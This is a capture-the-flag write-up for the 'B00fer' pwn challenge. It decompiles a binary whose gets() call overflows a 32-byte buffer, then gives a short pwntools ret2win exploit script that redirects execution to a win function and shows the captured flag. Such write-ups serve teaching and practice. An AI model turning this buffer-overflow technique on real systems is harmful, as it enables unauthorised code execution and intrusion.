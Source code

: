# Intro

Name: B00fer  
Description:   
    The Consortium sent us this file and connection info. Looks like they are taunting us.  
    They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.  
    `nc b00fer.niccgetsspooky.xyz 9001`  
Author: [Robert Blacha](https://github.com/RobertPBlacha)  
  
This will be a pwn challenge seeing the name and the fact that we are given a remote.  
We are only given the binary, no source code.  
# Exploring
  
Running checksec we see :
- No stack canary
- No PIE
- The binary is not stripped

Running the program we are asked for an input without much info on what to enter.

Let's spin up ghidra and see what we're dealing with.
```C
int main(void)
{
  char buffer [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n");
  gets(buffer);
  return 0;
}
```

So we are facing a classic ret2win challenge, we even have a beautiful function named win.

```c
void win(void)
{
  char flag [40];
  FILE *file;
  
  file = fopen("flag.txt","r");
  fread(flag,1,0x20,file);
  puts(flag);
  puts("Good!\n");
  exit(1);
}
```

# Exploiting

We simply need to overwrite the return address of main to call win.  
First let's compute the offset, using pwndbg we find that win is at `0x401227` and that the return address of main will be replaced by the 6th byte in the buffer.  

  
To finish this we write a nice script using pwntools  

```python
payload = flat(
        b'\x00'*5*8,
        p64(0x401227) 
        )

io = start()

io.sendlineafter(b'Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n', payload)

io.recvline().decode()
print(io.recvline().decode())
```

And we get the flag :

```bash
./exploit.py REMOTE b00fer.niccgetsspooky.xyz 9001
NICC{Sp00ked_the_fl4g_0ut_of_m3}
```
